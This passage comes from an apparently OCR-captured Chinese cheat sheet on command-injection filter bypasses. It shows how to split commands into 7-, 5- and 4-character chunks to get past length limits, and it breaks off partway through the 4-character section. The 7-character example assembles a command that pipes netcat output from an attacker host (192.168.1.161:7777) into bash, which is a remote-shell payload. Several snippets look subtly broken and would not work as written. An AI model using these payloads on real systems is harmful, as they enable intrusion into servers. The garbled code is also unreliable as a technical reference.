 
### 5. 命令长度限制绕过 (长度为 7) 📏

**核心原理：**

当服务器端对用户输入的每条命令或命令片段有严格的长度限制（例如，每个通过特定方式提交的“单词”不能超过7个字符）时，需要将长命令拆分成多个符合长度限制的小块，并通过重定向、管道或分步执行来组合它们。

**利用示例：**

```bash
# 目标: ls -t > a; sh a;
# 将 'ls -t > a' 写入文件 a
>ls\ -t\ 
> a
# 执行 a 文件中的命令
sh a

# 目标: nc 192.168.1.161 7777 | bash
# 将命令分块写入文件，最后执行
>bash
>\|n\ c\ 
>192.\ 
>168.\ 
>1.\ 
>161\ 
>7777
# 假设上述命令被组合到一个文件中（例如 x）
sh x
```

---

### 6. 命令长度限制绕过 (长度为 5) 📏

**核心原理：**

与长度为7的绕过类似，但限制更严格。需要将命令拆分成更小的块，通常利用重定向 `>` 和 `>>` 来逐步构建命令脚本。

**利用示例：**

```bash
# 目标: ls -t > y
ls>y
ls>>y
echo \ >y # 写入空格
echo -t>>y

# 执行脚本
sh y
```

---

### 7. 命令长度限制绕过 (长度为 4) 📏

**核心原理：**
